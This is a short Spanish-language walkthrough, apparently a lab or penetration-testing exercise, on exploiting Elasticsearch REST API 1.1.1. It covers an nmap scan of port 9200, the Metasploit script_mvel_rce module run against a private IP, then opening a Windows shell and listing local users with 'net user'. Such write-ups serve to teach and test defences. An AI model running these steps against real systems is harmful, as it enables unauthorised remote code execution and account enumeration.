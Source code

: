 # Explotación de servicio Elasticsearch REST API 1.1.1 
Escanear la IP objetivo para conocer los puertos abiertos para ejecutar servicios

nmap -p 9200 -sV 172.16.3.122 

<img src="exploits_img/elasticsearch1.png" alt="nmap Elasticsearch" width="500" height="170">

Procedemos a explotar la vulnerabilidad con Metasploit de la siguiente forma:

use exploit/multi/elasticsearch/script_mvel_rce
set RHOSTS 172.16.3.122
exploit

Al explotar la vulnerabilidad podremos verificar lo siguiente:

<img src="exploits_img/elasticsearch2.png" alt="ejecucion exploit" width="500" height="450">

Luego podremos solicitar una consola de comandos de Windows con el comando “shell” y 
posteriormente listar los usuarios locales de la siguiente forma: "net user"

<img src="exploits_img/elasticsearch3.png" alt="resultado" width="500" height="350">
